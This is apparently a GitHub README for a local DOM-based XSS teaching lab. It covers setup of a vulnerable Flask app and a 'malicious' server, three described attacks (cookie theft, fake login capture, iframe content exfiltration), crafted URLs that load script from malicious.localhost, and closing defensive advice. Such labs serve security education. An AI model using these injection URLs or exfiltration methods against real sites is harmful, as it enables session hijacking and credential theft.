


# DOM_based XSS Vulnerability Demo & 3 Attack scenarios
I developed this lab to allow myself to dive deep into this vulnerability while playing.
Open source it for educational purpose. Please consume ethically.
Have fun !

## Vulnerability and Attacks explanation

DOM_based XSS vulnerability roots in attacker controllable unsanitary input being executed in JavaScript/ DOM API. e.g. document.write(), which lead to injection of malicious JavaScript and control of vulnerable web's DOM.

Its attack vector starts form victim clicks on crafted URL delivered by e.g. phishing email.

I created 3 attack scenarios:

|Scenario                   |.js to carry out Attack     |Note                         | Constrains                  |
|--------------------------|-----------------------------|-----------------------------|-----------------------------|
|Cookie exfiltration       |`malicious_cookiesteal.js`|If victim has already logged-in, or hasn't logged-out, there might be (session) cookies saved on browser. This .js tries to access cookies via 2 approaches: read directly, and include them into the header of exfiltration req. It's executed in the background. | 1, Victim hasn't logged-in; 2, Security attributes set to cookies. |
|Credential exfiltration   |`malicious_login.js`|This .js simulates vulnerable site's original login page(UI). Credentials will be sent to malicious server once user clicks login. |1, Can further include MITM relay attack|
|Web content exfiltration  |`malicious_iframe.js`|iFrame original website. Ride on authenticated session. During victim's normal usage, request and exfiltrate all links in the background for further sensitive data analysis. Due to in and out the iframe belong to the same origin, cookies are shared and SOP enforced by browser is not triggered, thus .js can read DOM content within the iframe. For illustration reason, I have the frame explicitly shown. It can be totally hidden from victim.|1, Vulnerable website(setting) doesn't allow being iframe.  |

## UML diagrams

Hereunder is the system's architecture:

Hereunder is the attack workflow. After victim clicks on the malicious URL:


# Installation & Setup

1) Install flask packages as used by servers
```bash
sudo pip3 install flask_cors flask
```
2) Generate certificates to enable HTTPS traffics for both servers. (alike real life scenario)
```bash
openssl req -x509 -newkey rsa:4096 -nodes -keyout Mserver.key -out Mserver.pem -days 365
openssl req -x509 -newkey rsa:4096 -nodes -keyout vulserver.key -out vulserver.pem -days 365  
```
3) Modify /etc/hosts file to add the following content. To differentiate two sites' domains.
```bash
127.0.0.1	malicious.localhost localhost
```
4) Initialize sqlite DB.
```bash
python3 db.py --create
```
5) Run servers.  (Their domain names and port numbers are hardcoded in .js and .py files. Pls don't change or update all)
```bash
python3 malicious_server.py -p 443 -k Mserver.key -c Mserver.pem
python3 vulnerable_server.py -p 8000 -k vulserver.key -c vulserver.pem
```
6) Access from browser and accept self-signed certificates.
```bash
https://localhost:8000
https://malicious.localhost:443
```
7) The vulnerable web application has following pages. /vulDemo.html contains the vulnerability. /content and /sensitiveContent is only accessible after login with credential admin:admin.
```bash
https://localhost:8000/vulDemo.html
https://localhost:8000/login
https://localhost:8000/content
https://localhost:8000/sensitiveContent
```
# Attacks carry out
## 1, Cookie exfiltration 

Simulate victim, login the app with  credential admin:admin
```bash
https://localhost:8000/
```
Simulate victim, click on the crafted phishing url to trigger attack. (Vulnerability exists in vulDemo.html page) 
```bash
https://localhost:8000/vulDemo.html?path=https://malicious.localhost:443/cookies.js
```
Check malicious server log. Dump data from Database
```bash
python3 db.py -Lk
```
## 2, Credential exfiltration
This will load a static hard-coded login page written by attacker, despite trying to simulate the UI of the origin. Any input credential will be exfiltrated.
```bash	
https://localhost:8000/vulDemo.html?path=https://malicious.localhost:443/login.js
```
```bash
python3 db.py -Lp 
```
## 3, Web content exfiltration
If victim has already logged in, .js will load vulnerable app's /content page directly. Otherwise, it will load the app's /login page firstly.
```bash
https://localhost:8000/vulDemo.html?path=https://malicious.localhost:443/contentExf.js
```
```bash
python3 db.py -Lc
```
# Lessons learnt / Security suggestion

1) DOM based XSS might exists in not minimized, not-for-production external library files being included (vendor00.js and vendor00Test.html). Due to it's nature, those files might not have sufficient security measures in design.  
2) Analog includes unexpected URL loading.
3) CSP (content security policy) defines application's legitimate resources loading scope. Have this configured is very helpful with preventing loading .JS from malicious servers.
4) If not required, configure to forbidden being iframe.
5) Configure security attributes to cookie: 
- HttpOnly: Browser will forbids javascript code from access/read cookies)
- HostOnly : Cookies are only sent in the requests to the origin domain that sets it up, or also to subdomains of the origin server.
- SameSite = Strict: Cookies will only be sent when user navigates to the site directly. When user clicks on a link from email, it's not sent.
